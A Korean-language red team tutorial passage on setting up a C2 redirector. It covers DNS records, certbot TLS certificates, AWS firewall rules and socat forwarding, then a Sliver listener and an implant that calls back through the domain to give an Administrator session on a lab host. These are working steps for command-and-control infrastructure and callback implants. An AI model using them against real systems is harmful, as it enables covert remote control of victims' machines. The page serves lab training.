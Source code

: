 # 도메인과 리다이렉터 설정

팀 서버, 네뷸라, 그리고 클라우드가 설정됐으니 이제 도메인과 리다이렉터를 설정해주자. 먼저 구입한 도메인에서 A 레코드를 만들고, 서브도메인을 만들어준다. 이 서브도메인은 리다이렉터 서버를 가르킬 것이며, 동시에 C2 프레임워크 리스너의 도착 URL이 될것이다.

아래의 예시는 A 레코드에 info 라는 서브 도메인을 만든 뒤, 그 서브 도메인을 리다이렉터 서버의 공인 아이피주소를 가르키고 있다.&#x20;

![](../.gitbook/assets/adding-a-record.png)

레코드를 생성 후 조금 기다려본다. 그 뒤 `info.<도메인>`을 DNS 요청해보면 리다이렉터의 아이피가 반환될것이다.

```
┌──(root㉿kali)-[/opt]
└─# nslookup
> info.koreambtihealth.com
Server:         192.168.40.2
Address:        192.168.40.2#53

Non-authoritative answer:
Name:   info.koreambtihealth.com
Address: <리다이렉터-주소> 
> 
```

### TLS와 HTTPS

작전보안을 위해서 비컨과 C2 프레임워크, 그리고 리다이렉터는 모두 HTTPS로 소통할 것이다. 그러기 위해선 서버측에서 TLS 인증서가 필요하다. 도메인을 구입하고 DNS 설정이 모두 끝났으니 `certbot` 을 통해 TLS 인증서를 발급받자.

먼저 certbot을 설치한다.

```
sudo apt update -y 
sudo apt install certbot -y 
```

이후, 포트 80이 닫혀있는지 확인한다. 아마도 전에 실행중이던 socat이 계속 실행중일 것이기 때문에 `ps faux` 등으로 PID를 찾아낸 뒤 프로세스를 죽인다.

```
netstat -tulpna | grep -i 80 
ps faux 
sudo kill -9 <socat-pid>
```

이후 AWS로가 인바운드 HTTP 트래픽이 가능하도록 Security Group을 수정한다. EC2 > Security Groups > (Security Group ID) > Edit Inbound Rule > Allow TCP/80 from Anywhere IPv4 를 해주면 된다.

이후 certbot으로 TLS 인증서를 생성한다.

```
ubuntu@redirector01:~$ sudo certbot certonly --standalone 

Saving debug log to /var/log/letsencrypt/letsencrypt.log
Please enter the domain name(s) you would like on your certificate (comma and/or
space separated) (Enter 'c' to cancel): info.koreambtihealth.com
Requesting a certificate for info.koreambtihealth.com

Successfully received certificate.
Certificate is saved at: /etc/letsencrypt/live/info.koreambtihealth.com/fullchain.pem
Key is saved at:         /etc/letsencrypt/live/info.koreambtihealth.com/privkey.pem

< ... > 

ubuntu@redirector01:~$ 
```

인증서 파일들의 권한을 바꾼 뒤, 팀 서버로 SCP를 이용해 가져온다. 이후, 리다이렉터 서버에서는 인증서 파일을 삭제한다.

```
# 리다이렉터 서버 
sudo cp /etc/letsencrypt/live/info.koreambtihealth.com/fullchain.pem .
sudo cp /etc/letsencrypt/live/info.koreambtihealth.com/privkey.key .
sudo chown ubuntu:ubuntu fullchain.pem
sudo chown ubuntu:ubuntu privkey.key  

# 칼리 리눅스 팀 서버 
┌──(root㉿kali)-[~/redteam/certbot]
└─# scp -i /root/redteam/sshkeys/aws-redirector-ssh ubuntu@redirector:/home/ubuntu/fullchain.pem . 
fullchain.pem  
                                                                                              
┌──(root㉿kali)-[~/redteam/certbot]
└─# scp -i /root/redteam/sshkeys/aws-redirector-ssh ubuntu@redirector:/home/ubuntu/privkey.pem . 
privkey.pem 
```

인증서 발급이 끝났다면 다시 AWS로 가 인바운드 HTTP 트래픽과 관련된 Security Group을 바꿔준다. 실제 레드팀 작전에서 리다이렉트 서버의 80/443 포트에 접속할 호스트/프로세스들은 타겟 호스트를 감염시킨 레드팀의 비컨 프로세스 밖에 없다. 따라서, 타겟 공간의 IP주소들을 먼저 OSINT 등으로 확인한 뒤 그 IP주소들에서만 트래픽을 받도록 화이트리스트 하면 된다.

이 튜토리얼의 경우 공격자와 타겟 공간은 모두 본인 호스트의 VMWare Workstation이다. 따라서 본인의 집 아이피 주소만 인바운드 HTTP 80/443 화이트리스트 한다.

![](../.gitbook/assets/redirector-final-aws-firewall.png)

마지막으로 리다이렉터 서버에 socat 을 구축해 443 포트로 들어오는 모든 트래픽을 팀 서버로 redirect 시킨다.

```
sudo socat tcp-listen:443,reuseaddr,fork,bind=0.0.0.0 tcp:192.168.100.2:443
```

이제 슬리버 C2 서버와 비컨을 이용해 실제로 리다이렉트가 성공적으로 이뤄지는지 알아본다.

먼저 앞서 생성했던 certbot의 TLS 인증서들을 이용해 HTTPS 리스너를 생성한다.

```
https --cert /root/redteam/certbot/fullchain.pem --key /root/redteam/certbot/privkey.pem
```

이후 에이전트를 만든다.

```
generate --http https://info.koreambtihealth.com -s /root/redteam/hosting
```

타겟 호스트에 에이전트를 옮긴 뒤, 실행한다. 콜백이 리다이렉터를 지나 팀 서버까지 성공적으로 이뤄졌는지 확인한다.

```
[*] Session 00f9b25d ROYAL_LIER - 192.168.100.3:37726 (wkstn01) - windows/amd64 - Tue, 07 Jun 2022 21:54:44 EDT

sliver > sessions

 ID         Transport   Remote Address         Hostname   Username                Operating System   Health  
========== =========== ====================== ========== ======================= ================== =========
 00f9b25d   http(s)     192.168.100.3:37726    wkstn01    WKSTN01\Administrator   windows/amd64      [ALIVE] 
```

슬리버의 세션을 확인해보면 재밌게도 Remote Access 가 피해자 호스트의 아이피주소가 아닌, 리다이렉터의 네뷸라 VPN 아이피주소인 `192.168.100.3` 인 것을 볼 수 있다. 이는 피해자 -> 리다이렉터 -> 팀 서버 형식으로 트래픽이 진행됐기 때문이다. 따라서 슬리버 C2의 입장에서는 어쨌든 비컨이 `192.168.100.3` 리다이렉터 서버에서 온 것 처럼 보이니, 그렇게 출력하는 것이다.

